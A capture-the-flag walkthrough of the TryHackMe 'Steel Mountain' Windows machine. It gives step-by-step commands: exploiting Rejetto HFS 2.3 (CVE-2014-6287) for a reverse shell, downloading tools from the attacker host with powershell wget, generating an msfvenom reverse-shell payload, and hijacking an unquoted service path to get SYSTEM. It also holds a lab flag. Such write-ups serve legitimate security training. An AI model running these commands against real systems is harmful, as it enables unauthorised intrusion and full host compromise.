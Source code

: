 ###### Hack into a Mr. Robot themed Windows machine.
Room: https://tryhackme.com/room/steelmountain  
##


**sudo** nmap -sV -sS -T5 -vv xx.xx.xx.xx

```
PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

On http://machineip:8080 we can find a file server running - Rejetto HTTP File Server2.3. 

**searchsploit** -w hfs 2.3
```
----------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                         |  URL
----------------------------------------------------------------------- --------------------------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)            | https://www.exploit-db.com/exploits/49584
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)            | https://www.exploit-db.com/exploits/48569
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload         | https://www.exploit-db.com/exploits/30850
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)    | https://www.exploit-db.com/exploits/34668
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)    | https://www.exploit-db.com/exploits/39161
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Executi | https://www.exploit-db.com/exploits/34852
----------------------------------------------------------------------- --------------------------------------------

```

The CVE for this exploit is 2014-6287 and allows us RCE. We'll use the RCE(2) exploit.  

Download, edit the script and add: 
* Your attacking machine IP.
* A desired port.

Download ncat static binary for windows from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)
Create a HTTP server in the same folder as **nc.exe**.
> python -m SimpleHTTPServer 80

Then, start a netcat listener on the same port you set in the exploit.  
> nc -nvlp [port]  

We need to run the exploit twice.  
After the first run, it gets the netcat static binary via the HTTP server.  
```
Serving HTTP on 0.0.0.0 port 80 ...
xx.xx.xx.xx - - [09/Oct/2021 22:58:18] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:19] "GET /nc.exe HTTP/1.1" 200 -
xx.xx.xx.xx - - [09/Oct/2021 22:58:20] "GET /nc.exe HTTP/1.1" 200 -
```

After the second run, the binary gets called and we get a reverse shell on our netcat listener.   
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49177
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

```
After we get our reverse shell, we can get a script to check for windows vulnerabilities instead of looking for them manually.  
Download winPEAS and place it in the same folder with the HTTP server.  

From the reverse shell we got earlier, use ```powershell -c wget "http://attackingMachineIP/winPEASx86.exe" -outfile "winpeas.exe"```  

After we run it, we see something that can be easily abused.  
```
���������͹ Interesting Services -non Microsoft-
� Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    File Permissions: bill [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])
    Advanced SystemCare Service
   =================================================================================================
```

**cd** C:\Program Files (x86)\IObit\Advanced SystemCare

We need to see if the process can be started/stopped and if we have permissions to do that.  

First, go back one one directory and run  

sc sq AdvancedSystemCareService9
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

icacls "Advanced SystemCare"
```
Advanced SystemCare STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)
                    NT SERVICE\TrustedInstaller:(I)(F)
                    ...................................
```
The (RX,W) is what matters -- It means we have acces to write, read and execute.  


Let's create a payload using **msfvenom** from the **attacking machine**.  
**msfvenom** -p windows/shell_reverse_tcp LHOST=attackingMachineIP LPORT=1111 -f exe -o Advanced.exe

Now, transfer the payload to C:\Program Files (x86)\IObit   
Start another listener on the attacking machine on the same port as the payload.  

On the target machine, run the following two commands:   
**sc** stop AdvancedSystemCareService9  
**sc** start AdvancedSystemCareService9   

We should get a remote shell on the second listener with administrator privileges.  
```
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xx.xx] 49263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

The flag is located on C:\Users\Administrator\Desktop.  
> 9af5f314f57607c00fd09803a587db80

## 

**Note**: There's another way in, using metasploit but that way is easier, more guided & well explained in the room, so no point in covering that.  
